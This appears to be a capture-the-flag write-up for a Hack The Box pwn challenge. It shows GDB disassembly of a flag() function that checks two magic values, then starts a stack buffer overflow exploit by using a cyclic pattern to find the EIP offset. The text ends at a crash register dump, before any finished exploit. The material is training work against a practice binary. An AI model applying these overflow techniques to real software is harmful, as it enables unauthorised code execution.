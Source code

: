 The third function of the binary, namely flag(), was not called by either main() or vuln(). The flag() function checks if a file flag.txt exists. If it does, then it performs an if statement in which it compares the param_1 and param_2 to certain hex values. On condition that this if statement is true, the contents of flag.txt are read out.

### GDB        

Analysing this function through GDB helps in dissecting what the program is doing on the assembly level:

{% highlight bash %}
0x08049246 <+100>:   cmp    DWORD PTR [ebp+0x8],0xdeadbeef                          
0x0804924d <+107>:   jne    0x8049269 <flag+135>                                    
0x0804924f <+109>:   cmp    DWORD PTR [ebp+0xc],0xc0ded00d
{% endhighlight %}

The aforementioned if statement compares the value of the base pointer + 8 to 0xdeadbeef and the base pointer + 12 to 0xc0ded00d. Therefore, a successful exploit will constitute the control of the foregoing base pointer addresses along with the overwriting of the EIP register to point to the flag() function.

Constructing Exploit
--------------------

### EIP Offset

The offset of the EIP register overwrite must first be determined. Within GDB, in order to provide an input to a program which prompts the user for a string, the desired string must first be echoed into a file. The contents of this file can then be run within the debugger. Hence, using the cyclic function, a pattern of 200 bytes was echoed into a file called eip_overwrite as follows:

{% highlight bash %}
┌─[0xd4y@Writeup]─[~/business/hackthebox/easy/windows/love]                                                                                                                  
└──╼ $cyclic 200 > eip_overwrite
{% endhighlight %}

The contents of this file are then piped into the program with r < eip_overwrite:

{% highlight bash %}
┌─[0xd4y@Writeup]─[~/business/hackthebox/challenges/pwn/easy/you_know]                                                                                                
└──╼ $gdb -q ./vuln  
pwndbg: loaded 196 commands. Type pwndbg [filter] for a list.pwndbg: created $rebase, $ida gdb functions (can be used with print/break)  
Reading symbols from ./vuln...                                                          
(No debugging symbols found in ./vuln)                                                                                                                                        
pwndbg> r < eip_overwrite  
Starting program: /home/0xd4y/business/hackthebox/challenges/pwn/easy/you_know/vuln < eip_overwrite  
You know who are 0xDiablos:  
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabs  
aabtaabuaabvaabwaabxaabyaab                                                                                                                                                    
                                                                                                                                                                             
Program received signal SIGSEGV, Segmentation fault.  
0x62616177 in ?? ()          LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA  
────────────────────────────────────────────────────────────────────────────────[ REGISTERS ]────────────────────────────────────────────────────────────────────────────────EAX  0xc9                EBX  0x62616175 ('uaab')  
ECX  0xffffffffEDX  0xffffffffEDI  0xf7fa6000 (_GLOBAL_OFFSET_TABLE_) ◂-- insb   byte ptr es:[edi], dx /* 0x1e4d6c */ESI  0xf7fa6000 (_GLOBAL_OFFSET_TABLE_) ◂-- insb   byte ptr es:[edi], dx /* 0x1e4d6c */EBP  0x62616176 ('vaab')  
ESP  0xffffd020 ◂-- 'xaabyaab'  
EIP  0x62616177 ('waab')  
─────────────────────────────────────────────────────────────────────────────────[ DISASM ]──────────────────────────────────────────────────────────────────────────────────  
Invalid address 0x62616177
